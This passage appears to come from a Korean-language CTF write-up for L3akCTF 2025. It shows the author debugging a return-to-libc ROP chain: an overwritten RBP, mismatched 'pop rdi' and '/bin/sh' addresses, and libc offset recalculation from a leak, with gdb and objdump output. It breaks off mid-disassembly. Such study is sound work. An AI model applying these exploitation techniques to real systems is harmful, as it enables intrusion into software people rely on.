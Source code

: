![image.png](/assets/img/l3akctf2025/image11.png)

```bash
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7ffdd1417530 —▸ 0x7faf69642031(의도는 /bin/sh) ◂— bsf eax, eax
*RIP  0x7faf694d3725 ◂— 0x0 (의도는 pop rdi)
```

0x7faf694d3725가 pop rdi 명령어여야 하는데, 전혀 다른 명령어가 있다.

```bash
x/i 0x7faf694d3725
=> 0x7faf694d3725:      add    BYTE PTR [rax],al
```

binsh 오프셋도 정확한데 이상한 값이 들어있다

```bash
p/x 0x7faf69642031 - 0x7faf694ac000
$4 = 0x196031

x/s 0x7faf69642031
0x7faf69642031: "\017\274\300H\203\357_H\001\370\351", <incomplete sequence \331>
x/i 0x7faf69642031
0x7faf69642031:      bsf    eax,eax
```

그래서 libc leak한 주소 내부 값을 로컬에서 찾아서 오프셋 계산을 해보기로 함

libc leak한 주소 내부 값

```bash
x/i 0x7faf694d61ca
0x7faf694d61ca:      mov    edi,eax
```

```bash
objdump -D libc.so.6 --start-address=0x2a1b0 --stop-address=0x2a1f0

libc.so.6:     file format elf64-x86-64

Disassembly of section .text:

000000000002a1b0 <__gconv_get_alias_db@@GLIBC_PRIVATE+0x2360>:
   2a1b0:       8b 4c 85 00             mov    0x0(%rbp,%rax,4),%ecx
   2a1b4:       0f c9                   bswap  %ecx
   2a1b6:       89 0c 83                mov    %ecx,(%rbx,%rax,4)
   2a1b9:       48 83 c0 01             add    $0x1,%rax
   2a1bd:       48 39 c7                cmp    %rax,%rdi
   2a1c0:       75 ee                   jne    2a1b0 <__gconv_get_alias_db@@GLIBC_PRIVATE+0x2360>
   2a1c2:       48 c1 e7 02             shl    $0x2,%rdi
   2a1c6:       48 8d 0c 3b             lea    (%rbx,%rdi,1),%rcx
   2a1ca:       48 01 fd                add    %rdi,%rbp
```